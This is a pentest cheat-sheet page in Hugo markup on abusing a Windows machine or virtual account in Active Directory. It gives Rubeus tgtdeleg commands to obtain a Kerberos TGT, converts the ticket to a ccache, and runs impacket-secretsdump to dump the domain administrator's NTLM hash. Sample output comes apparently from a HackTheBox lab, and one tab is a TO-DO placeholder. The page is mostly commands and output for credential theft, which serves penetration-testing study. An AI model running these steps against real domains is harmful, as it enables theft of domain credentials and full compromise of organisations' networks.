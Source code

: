 ```yaml
---
title: "Machine Account"
date: 2025-7-25
tags: ["Kerberos", "Credential Dumping", "Pass-The-Ticket", "Rubeus", "Ticket Granting Ticket", "Domain Controller", "Machine Account", "Microsoft Virtual Account", "Active Directory", "Windows"]
---
```


### Abuse #1: Microsoft Virtual Account

#### 1. Create a Ticket from Microsoft Virtual Account

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
.\rubeus.exe tgtdeleg /nowrap /ptt
```

```console {class="sample-code"}
PS C:\programdata> .\rubeus.exe tgtdeleg /nowrap /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/g0.flight.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: W4jpmQuUqxCWpBh7QpPEkePICUi1mU/91EaqO2SfUgs=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFVDCCBV ---[SNIP]--- lHSFQuSFRC
```

{{< /tabcontent >}}

#### 2. Secrets Dump

{{< tab set2 tab1 >}}Linux{{< /tab >}}
{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Convert kirbi to ccache

```console
python3 rubeustoccache.py '<BASE64_TICKET>' secrets.kirbi secrets.ccache
```

```console {class="sample-code"}
$ python3 rubeustoccache.py 'doIFVDCCBV ---[SNIP]--- lHSFQuSFRC' secrets.kirbi secrets.ccache
╦═╗┬ ┬┌┐ ┌─┐┬ ┬┌─┐  ┌┬┐┌─┐  ╔═╗┌─┐┌─┐┌─┐┬ ┬┌─┐
╠╦╝│ │├┴┐├┤ │ │└─┐   │ │ │  ║  │  ├─┤│  ├─┤├┤ 
╩╚═└─┘└─┘└─┘└─┘└─┘   ┴ └─┘  ╚═╝└─┘┴ ┴└─┘┴ ┴└─┘
              By Solomon Sklash
          github.com/SolomonSklash
   Inspired by Zer1t0's ticket_converter.py

[*] Writing decoded .kirbi file to secrets.kirbi
[*] Writing converted .ccache file to secrets.ccache
[*] All done! Don't forget to set your environment variable: export KRB5CCNAME=secrets.ccache
```

#### 2. Secrets Dump

```console
export KRB5CCNAME=secrets.ccache
```

```console {class="sample-code"}
$ export KRB5CCNAME=secrets.ccache
```

```console
sudo ntpdate -s <DC_IP> && impacket-secretsdump <TARGET> -k -no-pass -just-dc-user administrator
```

```console {class="sample-code"}
$ sudo ntpdate -s g0.flight.htb && impacket-secretsdump g0.flight.htb -k -no-pass -just-dc-user administrator

Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c:::
---[SNIP]---
[*] Cleaning up..
```

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. TO-DO

```console
TO-DO
```

{{< /tabcontent >}}
